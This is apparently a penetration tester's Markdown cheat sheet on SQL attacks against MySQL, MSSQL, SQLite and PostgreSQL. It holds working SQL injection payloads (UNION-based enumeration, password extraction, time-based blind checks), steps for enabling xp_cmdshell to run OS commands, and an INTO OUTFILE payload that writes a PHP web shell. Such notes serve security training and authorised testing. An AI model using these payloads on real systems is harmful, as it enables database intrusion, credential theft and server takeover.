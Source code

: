 ```yaml
---
layout: blank
pagetitle: SQL Attacks
---
```


https://pentestmonkey.net/category/cheat-sheet/sql-injection
### Enumeration/Discovery
- General fuzzing can help, but try to think from the developer's perspective when coming up with the example query
- Matching on numbers may not use single/double quotes at all
	- `SELECT * FROM rooms WHERE room_id = 1;` uses no quotes

### MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`

### MSSQL
- Database management built into Windows
- Command-line tool `SQLCMD` allows SQL queries through cmd
- Kali has `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {username}@{host IP} -windows-auth`
		- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
			- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; 
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
			- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
	- `-windows-auth` forces the use of NTLM auth (rather than Kerberos)
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema

### SQLite
- Use `sqlitebrowser` for viewing sqlite databases

### PostgreSQL
- Use `psql` for to connect to PostgreSQL databases

### SQL Exploitation
- Techniques:
	- Can trail SQL injection queries with `//` to provide visibility on the payload and protect against whitespace truncation
	- Can use `IN` to inject arbitrary second command:
		- `' OR 1=1 IN (SELECT version()) -- //`
		- `' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- Enumerating tables
	- `' UNION SELECT table_name FROM information_schema.tables -- //`
	- `' UNION SELECT column_name FROM information_schema.columns WHERE table='{table_name} -- //`
- UNION-based Payloads
	- UNION query must include same number of columns as original
		- To find number of columns, use ORDER BY
			- `' ORDER BY 1 -- //`
			- Orders results by a specific column, so it will fail when selected column doesn't exist (iterate through column numbers to find max columns)
		- Can also do `' UNION SELECT null, null, null, ...` until no error
		- If we make the original input invalid, then pass a valid union select, we can see where each piece of data ends up
			- `9999 union select 1,2,3,4,5`
	- Data types need to be compatible between each column
	- E.g. `$query = "SELECT * FROM customers WHERE name LIKE '".$_POST["input"]."%'";`
		- Used `' ORDER BY 5 -- //` and `' ORDER BY 6 -- //` to determine 5 columns
		- Thus payload becomes `%' UNION SELECT null, null, database(), user(), @@version -- //`, filling unneeded columns (including ID column 1) with null
- Blind injection
	- Can use booleans alongside sleep commands to verify existence of data/characters
		- `' AND IF (1=1, sleep(3), 'false') -- //` 
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
